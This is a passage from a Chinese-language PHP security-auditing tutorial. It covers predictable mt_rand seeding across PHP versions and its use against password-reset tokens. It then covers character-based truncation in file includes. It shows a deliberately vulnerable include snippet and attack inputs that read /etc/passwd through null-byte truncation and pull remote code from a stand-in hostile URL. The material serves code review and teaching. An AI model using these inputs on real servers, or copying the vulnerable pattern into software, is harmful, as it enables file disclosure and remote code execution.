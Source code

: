 当10634次时候我们得到了结果。
  
当PHP版本到了5.2.1后，通过修改算法修补了奇数和偶数的播种相等的问题，这样也导致了php5.2.0前后导致同一个播种后的mt_rand()的值不一样。比如：
  
``` php
  
<?php
  
mt_srand(42);
  
echo mt_rand();
  
//php<=5.20 1387371436
  
//php>5.20 1354439493           
  
?>
  
```
  
正是这个原因，也要求了我们的exp的运行环境：当目标>5.20时候，我们exp运行的环境也要是>5.20的版本，反过来也是一样。
  
从上面的测试及分析来看，php<5.26不管有没有定义播种，mt_rand处理的数据都是不安全的。在web应用里很多都使用mt_rand来处理随机的session，比如密码找回功能等等，这样的后果就是被攻击者恶意利用直接修改密码。
  
很多著名的程序都产生了类似的漏洞如wordpress、phpbb、punbb等等。（在后面我们将实际分析下国内著名的bbs程序Discuz!的mt_srand导致的漏洞）
  

  
漏洞审计策略PHP版本要求：php4 php5<5.2.6
  
系统要求：无
  
审计策略：查找mt_srand/mt_rand
  

  
### 特殊字符
  
其实“特殊字符”也没有特定的标准定义，主要是在一些code hacking发挥着特殊重作用的一类字符。下面就举几个例子：
  
#### 截断
  
其中最有名的数大家都熟悉的null字符截断。
  
#### include截断
  
``` php
  
<?php 
  
include $_GET['action'].".php"; 
  
?>
  
```
  
提交“action=/etc/passwd%00”中的“%00”将截断后面的“.php”，但是除了“%00”还有没有其他的字符可以实现截断使用呢？肯定有人想到了远程包含的url里问号“?”的作用，通过提交“ action=http://www.hacksite.com/evil-code.txt? ” 这里“?”实现了“伪截断”：），好象这个看上去不是那么舒服那么我们简单写个代码fuzz一下：  
  